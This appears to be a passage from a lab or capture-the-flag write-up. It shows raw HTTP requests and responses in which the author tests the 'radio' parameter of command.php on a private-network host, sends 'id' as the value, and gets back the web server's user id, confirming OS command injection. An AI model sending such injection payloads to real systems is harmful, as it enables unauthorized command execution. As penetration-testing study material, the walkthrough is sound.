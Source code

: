 ```http

HTTP/1.1 200 OK
Server: nginx/1.15.10
Date: Wed, 02 Aug 2023 18:22:38 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1038

<html>
...
<pre>total 24
-rw-r--r-- 1 root root 1783 Apr  5  2019 command.php
drwxr-xr-x 2 root root 4096 Mar 24  2019 css
drwxr-xr-x 2 root root 4096 Mar 24  2019 images
-rw-r--r-- 1 root root  506 Apr  6  2019 index.php
-rw-r--r-- 1 root root 1473 Apr  7  2019 login.php
-rw-r--r-- 1 root root  663 Mar 24  2019 logout.php
</pre>
...
```

The input parameter looks juicy. Lets try to change the value of the parameter to `id` to see if we can send arbitrary commands.
```http
POST /command.php HTTP/1.1
Host: 192.168.193.195
Content-Length: 19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.193.195
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.193.195/command.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=l946hgu7t13k47989p6m2lpq52
Connection: close

radio=id&submit=Run

HTTP/1.1 200 OK
Server: nginx/1.15.10
Date: Wed, 02 Aug 2023 18:22:46 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 780

<html>
...
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
...
```
